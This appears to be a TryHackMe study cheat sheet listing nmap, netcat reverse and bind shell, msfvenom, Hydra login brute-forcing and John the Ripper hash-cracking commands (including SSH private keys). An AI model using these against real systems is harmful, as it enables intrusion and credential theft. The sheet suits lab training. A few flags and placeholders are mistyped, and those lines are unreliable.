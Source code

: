 # TryHackMe - Cheat Sheet

## Useful Links

- [Sec Lists](https://github.com/danielmiessler/SecLists)
- [Identify Hash Types](https://hashes.com/en/tools/hash_identifier)

## NMAP

### Basic Switches

- -`sT` TCP Connect Scans 
- `-sS` SYN "Half-open" Scans 
- `-Su` UDP Scans (-sU)
- `-O`  Operating System
- `-Sv` Services that are running.

### Output Types

- `-oA` Three major formats
- `-oN` Normal format
- `-oG` Grepable format

## Netcat

### Reverse Shells

`nc -lvnp <port-number>`

- `-l` is used to tell netcat that this will be a listener
- `-v` is used to request a verbose output
- `-n` tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
- `-p `indicates that the port specification will follow.

### Bind Shells

`nc <target-ip> <chosen-port>`

### Netcat Shell Stabilisation

- Uses Python to spawn a better featured bash shell. `python -c 'import pty;pty.spawn("/bin/bash")'` 
- Give commands such as clear `export TERM=xterm` 
- Background the shell using Ctrl + Z. Back in own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

## Python3 

### Web Server

Format for a Python3 web server `sudo python3 -m http.server 80`

## Msfvenom 

Standard format for msfvenom `msfvenom -p <PAYLOAD> <OPTIONS>`

## Nessus (Vulnerability scanner)

### Basic Commands

Start Service `sudo /bin/systemctl start nessusd.service`

### Navigation & Scanning

- Which hosts are alive: host discovery
- Scan suitable for any host: Basic network scan
- Authenticate to hosts and enumerate missing update: Credentialed Patch Audit
- Scan for web applications: Web applications tests

## Hydra

### Hydra Commands

- For FTP: `hydra -l user -P passlist.txt ftp://MACHINE_IP`
- For SSH: `hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`
  - `-l` Username
  - `-P` Use a list of passwords
  - `-t` Number of threads to use
 -  Web Forum: `hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/LOGIN_URL(Example /login):username=^USER^&password=^PASS^:F=incorrect" -V`
    - `-l` Sinlge Usnermae
    - `-P` Password List
    - `http-post-form` Type of form (post)
    - `/login url` 
    - `:username` The form field where the username is entered
    - `^USER^` Tell Hydra to use the username    
    - `:password` The form field where the password is entered
    - `^PASSWORD^` Tell Hydra to use the password
    - `-V` Verborse output for every attempt 
  - `ssh username@IP`  SSH Login 

## John the Ripper

### Basic Syntax

`john [options] [path to file]`

### Automatic Cracking

`john --wordlist=[path to wordlist] [path to file]`

### Format-Specific Cracking

`john --format=[format] --wordlist=[path to wordlist] [path to file]`

### Single Crack Mode

`john --single --format=[format] [path to file]` (Uses username to crack password)

### Passwword Protected Zip Files

- Convert zip file into a hash: `zip2john zipfile.zip > zip_hash.txt` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt`

### Passwword Protected Rar Files

- Convert rar file into a hash: `rar2john [rar file] > [output file]` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt rar_hash.txt`

### Passwword Protected RarFiles

- Convert shh2 file into a hash: `ssh2john id_rsa > id_rsa_hash.txt` 
- Once I have the output use: `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_hash.txt`





